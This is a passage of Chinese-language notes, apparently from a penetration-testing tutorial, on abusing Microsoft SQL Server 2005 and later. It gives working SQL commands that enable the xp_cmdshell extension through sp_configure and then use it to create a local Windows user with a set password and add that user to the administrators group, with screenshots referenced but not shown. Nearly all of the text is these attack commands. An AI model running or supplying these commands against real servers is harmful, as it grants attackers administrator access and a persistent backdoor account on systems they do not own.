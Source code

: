 ###### 提取过程（2005版本之后）

1.开启xp_cmdshell

```bash
exec sp_configure 'show advanced options',1;   //允许修改高级参数
reconfigure;
exec sp_configure 'xp_cmdshell',1;            //打开xp cmdshell 扩展
reconfigure;
```

​![image](assets/image-20241030142905-618dc0b.png)​

2.xp_cmdshell执行命令

```bash
exec xp_cmdshell 'net user ichungiu 123.com /add';                //添加用户ichungiu，密码123.com
exec xp_cmdshell ' net localgroup administrators ichungiu /add';  //添加ichungiu到管理员组
```

​![image](assets/image-20241030143339-juos1aw.png)​![image](assets/image-20241030143351-9lqi7ue.png)​​
